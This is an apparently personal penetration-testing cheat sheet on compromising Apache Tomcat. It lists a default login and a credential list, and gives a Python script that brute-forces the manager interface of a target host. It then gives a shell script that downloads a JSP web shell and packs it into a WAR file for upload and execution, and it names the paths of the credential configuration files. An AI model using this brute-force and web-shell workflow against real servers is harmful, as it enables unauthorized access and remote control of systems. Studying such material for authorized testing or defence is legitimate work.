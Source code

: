 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Login
Try `tomcat : s3cret`

If not successful, try this list:
https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt

```python - kali
#!/usr/bin/env python
import sys
import requests

with open('tomcat-betterdefaultpasslist.txt') as f:
    for line in f:
        c = line.strip('\n').split(":")
        r = requests.get('http://$TARGET:8080/manager/html', auth=(c[0], c[1]))
        
        if r.status_code == 200:
            print "Found valid credentials \"" + line.strip('\n') + "\""
            raise sys.exit()
```

#### Malicious war upload

[[0._Reverse shells (WEB)#jar war]]

![[Pasted image 20220620190612.png]]

OR

wshell.sh
```bash - kali
#!/bin/sh 

wget https://raw.githubusercontent.com/tennc/webshell/master/jsp/jspbrowser/Browser.jsp -O index.jsp 

rm -rf wshell 
rm -f wshell.war 
mkdir wshell 
cp index.jsp wshell/ 
cd wshell 
jar -cvf ../wshell.war *
```

![[rlwrap]]

Upload and execute.


#### Configuration file
`/opt/tomcat/conf/tomcat-users.xml'

`/usr/share/tomcat9/conf/tomcat-users.xml`


